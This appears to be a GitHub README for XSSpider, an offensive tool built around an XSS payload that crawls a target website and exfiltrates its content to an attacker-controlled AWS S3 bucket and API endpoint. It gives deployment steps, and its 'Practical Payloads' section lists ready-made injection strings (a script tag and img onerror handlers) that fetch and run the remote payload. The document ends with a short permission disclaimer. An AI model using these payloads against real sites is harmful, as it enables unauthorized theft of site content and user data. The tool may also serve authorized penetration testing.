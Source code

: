 # XSSpider
This tool features a Javascript-based XSS payload used to crawl and exfiltrate website content. Data is stored in S3, and can be fully recreated and navigated in the attacker's local environment.

# Setup
## 1) Dependencies

### Amazon Web Services Account
Create an [AWS account](https://aws.amazon.com/free/) and configure your credentials for the [AWS CLI](http://docs.aws.amazon.com/cli/latest/userguide/cli-chap-install.html)

### Node Package Manager
NPM is required to run the Serverless Framework, install it [Here](https://nodejs.org/en/download/package-manager/).

### Install Serverless
```
npm install -g serverless
npm update -g serverless
```

### Install Serverless S3 Sync
```
npm install --save serverless-s3-sync
```

### Install Python 3.8.*
Python 3 is required for the local server to run. You can download it [Here](https://www.python.org/downloads/)

## 2) XSSpider Initial Setup & Deployment

### Update ./serverless.yml
The values for `service`, `s3Bucket_Payload`, and `s3Bucket_Server` will need to be changed to a unique name for your environment
```yaml
service: {{Your_Service_Name_Here}}

custom:
  s3Bucket_Payload: {{S3_Payload_Bucket}}
  s3Bucket_Server: {{S3_Server_Bucket}}
```

### Update ./handler.py
Using the value of `s3Bucket_Server` you entered in the serverless.yml file, update the value of `bucket_name`
```python
import json,boto3,time,base64,hashlib,re
from urllib.parse import unquote

s3 = boto3.client('s3')
bucket_name = '{{S3_Server_Bucket}}'
```

### Update ./static/payload.js
Using the value of `s3Bucket_Payload` you entered in the serverless.yml file, update the value of `spider_URL`
```javascript
var spider_URL = 'https://{{S3_Payload_Bucket}}.s3.amazonaws.com/spider.js';
```

### Deploy to AWS
Running the following command in console, Serverless will package up the resources and deploy them to your AWS environment
```
serverless deploy
```
Output:
```yml
Serverless: Stack update finished...
Service Information
service: {{Service_Name}}
stage: dev
region: us-east-1
stack: {{Service_Name}}-dev
resources: 16
api keys:
  None
endpoints:
  POST - https://{{abcd1234}}.execute-api.us-east-1.amazonaws.com/dev/storeData
functions:
  storeData: {{Service_Name}}-dev-storeData
```

## 3) Finalizing Setup & Testing

### Update ./static/spider.js
Referencing the output from the previous step, update the `storeData_URL` variable
```javascript
var storeData_URL = 'https://{{abcd1234}}.execute-api.us-east-1.amazonaws.com/dev/storeData';

$(document).ready(function() {
    base_url = window.location.host;
    ProcessHTML($.parseHTML($("html").html(), true));
})
```

### Re-deploy updated spider to AWS
```
serverless deploy
```
You are now ready to use XSSpider!

# Using XSSpider
### Initial Test
Running this code in the console of your [XSSpider demo site](https://S3_Payload_Bucket.s3.amazonaws.com/index.heml) will verify that everything was setup correctly.
```javascript
$.getScript('https://{{S3_Payload_Bucket}}.s3.amazonaws.com/spider.js')
```

### Practical Payloads
```html
<script src="https://{{S3_Payload_Bucket}}.s3.amazonaws.com/payload.js"></script>

<!-- jQuery is defined -->
<img/src=''/onerror="$.getScript('https://{{S3_Payload_Bucket}}.s3.amazonaws.com/payload.js')">

<!-- jQuery is not defined -->
<img src='' onerror="javascript:var script=document.createElement('script');script.src='https://{{S3_Payload_Bucket}}.s3.amazonaws.com/payload.js';document.head.appendChild(script);">
```

# Hosting Extracted Websites
### Download Content
Copy the S3 Bucket for your target site to the server directory
```
cd ./server
aws s3 cp s3://{{S3_Server_Bucket}}/{{Target_Site}} . --recursive
```

### Startup the Server
```
python3 server.py 8888
```
Navigate to http://localhost:8888 to view the site

# Docker
For those who don't want to use AWS and want to skip all the setup, a self-hosted Docker version of XSSpider is currently in development

# Disclaimer
*XSSpider will enumerate and interact with every link it comes accross. If the target site has not been developed properly, it could very well lead to deletion of data or other damaging effects. There is a blacklist of text to avoid, but does not gaurantee anything. Do no use without explicit permission from the target site owner.*